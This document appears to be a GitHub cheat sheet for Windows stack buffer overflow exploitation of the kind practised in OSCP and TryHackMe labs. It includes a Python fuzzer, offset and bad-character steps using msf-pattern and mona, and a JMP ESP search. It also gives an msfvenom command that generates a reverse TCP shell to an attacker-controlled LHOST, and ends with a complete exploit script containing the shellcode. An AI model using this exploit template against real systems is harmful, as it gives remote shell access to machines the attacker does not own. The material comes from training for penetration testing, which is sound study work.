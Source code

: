 **Windows Buffer Overflow Steps**

- **1: Fuzz**
  - **fuzz.py**

#!/usr/bin/env python3

import socket, time, sys

ip = &quot;192.168.110.100&quot;

port = 1234

timeout = 5

prefix = &quot;PREFIX &quot;

postfix=&quot;END&quot;

string = prefix + &quot;A&quot; \* 100 + postfix

while True:

try:

with socket.socket(socket.AF\_INET, socket.SOCK\_STREAM) as s:

s.settimeout(timeout)

s.connect((ip, port))

s.recv(1024)

print(&quot;Fuzzing with {} bytes&quot;.format(len(string) - len(prefix)))

s.send(bytes(string, &quot;latin-1&quot;))

s.recv(1024)

except:

print(&quot;Fuzzing crashed at {} bytes&quot;.format(len(string) - len(prefix)))

sys.exit(0)

string += 100 \* &quot;A&quot;

time.sleep(1)

  - Record **when** does the application crash, assume it crashes at **1000**
- **2: Find offset**
  - **msf-pattern\_create -l 1000, add generated pattern string to string**
  - **string=prefix + pattern + end**
  - Assume **EIP=77767574**
  - **msf-pattern\_offset -l 1000 -q 77767574** or **!mona findmsp** or **!mona findmsp -distance 1000**
  - Note the offset, assume it is **988**
  - **string=** prefix **+ &quot;A&quot; \* 988+&quot;B&quot; \* 4+&quot;C&quot; \* 8+** end
- **3: Find bad characters**
  - badchars = (

&quot;\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10&quot;

&quot;\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20&quot;

&quot;\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30&quot;

&quot;\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40&quot;

&quot;\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50&quot;

&quot;\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60&quot;

&quot;\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70&quot;

&quot;\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80&quot;

&quot;\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90&quot;

&quot;\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0&quot;

&quot;\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0&quot;

&quot;\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0&quot;

&quot;\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0&quot;

&quot;\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0&quot;

&quot;\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0&quot;

&quot;\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff&quot; )

  - Bad characters affect **the next byte** or even **the rest of the string**
  - If bad characters affect the rest string
    - Manual test
  - If bad characters only affect the next byte
    - !mona bytearray -b &quot; **\x00**&quot;
    - !mona compare -a esp -f bytearray.bin
    - **/x00** , and the **1**** st **one, the** 3 ****rd** one, the **5**** th **one, … the** (n-1) ****th** one are actual bad characters
  - Assume bad characters are **\x00\x07\x2e\xa0**
- **4: Find JMP ESP**
  - **Method 1 (PWK textbook)**
    - **!mona modules**
    - Select a module which does not have any memory protection and does not start with bad character
    - !mona find -s &quot; **\xff\xe4**&quot; -m &quot;example.dll&quot;
    - Note the address, assume it is **\xaf\x11\x50\x62**
    - string=prefix + &quot;A&quot; \* **988** +&quot; **\xaf\x11\x50\x62**&quot;+&quot;C&quot; \* 8+postfix
  - **Method 2 (THM)**
    - **!mona jmp -r esp -cpb &quot;\x00\x07\x2e\xa0&quot;**
    - Select one which does not have any memory protection
    - Note the address, assume it is **\xaf\x11\x50\x62**
    - string=prefix + &quot;A&quot; \* **988** +&quot; **\xaf\x11\x50\x62**&quot;+&quot;C&quot; \* 8+postfix
- **5: Generate Shell Code**
  - msfvenom -p windows/shell\_reverse\_tcp LHOST=192.168.49.77 LPORT=443 EXITFUNC=thread -f c –e x86/shikata\_ga\_nai -b &quot; **\x00\x07\x2e\xa0**&quot;
  - shellcode=&quot;……..&quot;
  - string=prefix + **&quot;A&quot; \* 988** + &quot; **\xaf\x11\x50\x62&quot;** + **&quot;\x90&quot; \* 20** + **shellcode** + postfix
- **6: Combine**
  - Final code

#!/usr/bin/python

import socket

shellcode = (&quot;\xbe\x55\xe5\xb6\x02\xda\xc9\xd9\x74\x24\xf4\x5a\x29\xc9\xb1&quot;

&quot;\x52\x31\x72\x12\x03\x72\x12\x83\x97\xe1\x54\xf7\xeb\x02\x1a&quot;

&quot;\xf8\x13\xd3\x7b\x70\xf6\xe2\xbb\xe6\x73\x54\x0c\x6c\xd1\x59&quot;

&quot;\xe7\x20\xc1\xea\x85\xec\xe6\x5b\x23\xcb\xc9\x5c\x18\x2f\x48&quot;

&quot;\xdf\x63\x7c\xaa\xde\xab\x71\xab\x27\xd1\x78\xf9\xf0\x9d\x2f&quot;

&quot;\xed\x75\xeb\xf3\x86\xc6\xfd\x73\x7b\x9e\xfc\x52\x2a\x94\xa6&quot;

&quot;\x74\xcd\x79\xd3\x3c\xd5\x9e\xde\xf7\x6e\x54\x94\x09\xa6\xa4&quot;

&quot;\x55\xa5\x87\x08\xa4\xb7\xc0\xaf\x57\xc2\x38\xcc\xea\xd5\xff&quot;

&quot;\xae\x30\x53\x1b\x08\xb2\xc3\xc7\xa8\x17\x95\x8c\xa7\xdc\xd1&quot;

&quot;\xca\xab\xe3\x36\x61\xd7\x68\xb9\xa5\x51\x2a\x9e\x61\x39\xe8&quot;

&quot;\xbf\x30\xe7\x5f\xbf\x22\x48\x3f\x65\x29\x65\x54\x14\x70\xe2&quot;

&quot;\x99\x15\x8a\xf2\xb5\x2e\xf9\xc0\x1a\x85\x95\x68\xd2\x03\x62&quot;

&quot;\x8e\xc9\xf4\xfc\x71\xf2\x04\xd5\xb5\xa6\x54\x4d\x1f\xc7\x3e&quot;

&quot;\x8d\xa0\x12\x90\xdd\x0e\xcd\x51\x8d\xee\xbd\x39\xc7\xe0\xe2&quot;

&quot;\x5a\xe8\x2a\x8b\xf1\x13\xbd\xbe\x0e\x1b\x2f\xd7\x12\x1b\x4e&quot;

&quot;\x9c\x9a\xfd\x3a\xf2\xca\x56\xd3\x6b\x57\x2c\x42\x73\x4d\x49&quot;

&quot;\x44\xff\x62\xae\x0b\x08\x0e\xbc\xfc\xf8\x45\x9e\xab\x07\x70&quot;

&quot;\xb6\x30\x95\x1f\x46\x3e\x86\xb7\x11\x17\x78\xce\xf7\x85\x23&quot;

&quot;\x78\xe5\x57\xb5\x43\xad\x83\x06\x4d\x2c\x41\x32\x69\x3e\x9f&quot;

&quot;\xbb\x35\x6a\x4f\xea\xe3\xc4\x29\x44\x42\xbe\xe3\x3b\x0c\x56&quot;

&quot;\x75\x70\x8f\x20\x7a\x5d\x79\xcc\xcb\x08\x3c\xf3\xe4\xdc\xc8&quot;

&quot;\x8c\x18\x7d\x36\x47\x99\x8d\x7d\xc5\x88\x05\xd8\x9c\x88\x4b&quot;

&quot;\xdb\x4b\xce\x75\x58\x79\xaf\x81\x40\x08\xaa\xce\xc6\xe1\xc6&quot;

&quot;\x5f\xa3\x05\x74\x5f\xe6&quot;)

try:

print &quot;\nSending evil buffer...&quot;

buffer= prefix + **&quot;A&quot; \* 988** + &quot; **\xaf\x11\x50\x62&quot;** + **&quot;\x90&quot; \* 20** + **shellcode** + postfix

s = socket.socket (socket.AF\_INET, socket.SOCK\_STREAM)

s.connect((&quot;192.168.110.100&quot;, 1337))

s.send(buffer)

s.close()

print &quot;\nDone!&quot;

except:

print &quot;\nCould not connect!&quot;
